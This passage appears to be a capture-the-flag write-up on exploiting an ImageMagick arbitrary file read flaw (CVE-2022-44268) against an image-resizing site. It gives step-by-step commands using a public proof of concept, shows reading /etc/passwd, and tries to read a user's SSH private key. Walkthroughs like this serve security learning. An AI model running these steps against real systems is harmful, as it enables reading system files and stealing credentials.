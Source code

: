 Googling it for known CVEs/vulnerabilies and we come across [this article detailing a vulnerability discovery](https://www.metabaseq.com/imagemagick-zero-days/) as well as [this Github exploit proof of concept (PoC).](https://github.com/voidz0r/CVE-2022-44268).

About ImageMagick 7.1.0-49 vulnerability:
* This version of ImageMagick is vulnerable to arbitrary file read. Meaning we can read most (or all) files on the server
* Arbitrary file read is a high severity level vulnerability, as files and databases can be displayed to a user 


### Resource Development

The PoC provides steps on how to exploit ImageMagick.
1. execute shell command `git clone https://github.com/voidz0r/CVE-2022-44268`
2. change directories to the cloned folder then execute `cargo run "/desired/file`
3. Upload to shrinker website
4. Download resized image
5. execute 'identify -verbose filename-here.png'
6. Convert hex of the resized image body to ascii 

Note: Rust is required to run this exploit - install with: `curl https://sh.rustup.rs -sSf | sh`

Use the steps above as a guide to complete the exploit

Using iPython3, save the hex to a string then decode the hex bytes to an ascii string.

![passwd.png](passwd.png)

Ok, so if this exploit was the roundhouse kick; we've mastered it. Now, we need to figure out where to deliver the kick. 

Notice the user accounts in `/etc/passwd` file we read from the server. There exsists a user `emily` whose home directory is `/home/emily`. I wonder if we can steal emily's private ssh key

We repeat the steps above with the payload `./cargo run "/home/emily/.ssh/id_rsa"` with no luck. Lets comb the Git repo for interesting files to read. 
